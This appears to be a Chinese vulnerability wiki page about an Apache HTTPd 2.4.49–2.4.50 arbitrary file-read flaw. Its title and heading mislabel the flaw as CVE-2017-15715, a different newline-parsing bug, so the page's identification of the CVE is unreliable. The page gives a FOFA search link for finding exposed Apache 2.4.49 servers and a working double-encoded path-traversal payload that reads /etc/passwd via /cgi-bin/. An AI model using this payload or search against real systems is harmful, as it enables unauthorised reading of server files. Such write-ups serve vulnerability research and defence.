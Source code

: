 ```yaml
---
title: Apache HTTPd 换行解析漏洞 CVE-2017-15715
---
```


# Apache HTTPd 换行解析漏洞 CVE-2017-15715

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件 （CVE-2021-41773 的漏洞绕过）

## 漏洞影响

<a-checkbox checked>Apache HTTPd  2.4.49~2.4.50版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=c2VydmVyPSJBcGFjaGUvMi40LjQ5IiA%3D">server="Apache/2.4.49" </a-button>
</a-checkbox>

## 漏洞复现

通过响应包获取 Apache版本

![img](../../../.vuepress/public/img/1633685599184-d9c836db-1324-49ae-a642-702c8b5bce78.png)

验证POC

```php
/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

![img](../../../.vuepress/public/img/1633686079889-61449308-0e08-44e8-8f28-63889158f769.png)